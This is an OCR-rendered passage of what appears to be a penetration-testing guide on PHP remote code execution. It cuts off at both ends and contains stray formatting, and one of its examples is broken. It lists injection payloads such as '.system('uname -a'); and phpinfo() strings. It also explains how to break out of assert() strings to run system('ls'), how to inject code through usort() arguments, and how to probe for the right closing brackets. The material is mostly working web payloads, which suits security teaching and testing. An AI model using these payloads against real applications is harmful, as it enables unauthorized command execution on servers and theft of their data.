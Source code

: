 '.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
```
### **RCE via Assert()**

This function within php allows you to **execute code that is written in a string** in order to **return true or false** (and depending on this alter the execution). Usually the user variable will be inserted in the middle of a string. For example:\
`assert("strpos($_GET['page']),'..') === false")` --> In this case to get **RCE** you could do:

```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
```
You will need to **break** the code **syntax**, **add** your **payload**, and then **fix it again**. You can use **logic operations** such as "**and" or "%26%26" or "|"**. Note that "or", "||" doesn't work because if the first condition is true our payload won't get executed. The same way ";" doesn't work as our payload won't be executed.

**Other option** is to add to the string the execution of the command: `'.highlight_file('.passwd').'`

**Other option** (if you have the internal code) is to modify some variable to alter the execution: `$file = "hola"`

### **RCE via usort()**

This function is used to sort an array of items using an specific function.\
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```
```
```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```
```
You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

- `?order=id;}//`: we get an error message (`Parse error: syntax error, unexpected ';'`). We are probably missing one or more brackets.
- `?order=id);}//`: we get a **warning**. That seems about right.
- `?order=id));}//`: we get an error message (`Parse error: syntax error, unexpected ')' i`). We probably have too many closing brackets.

### **RCE via .httaccess**

```
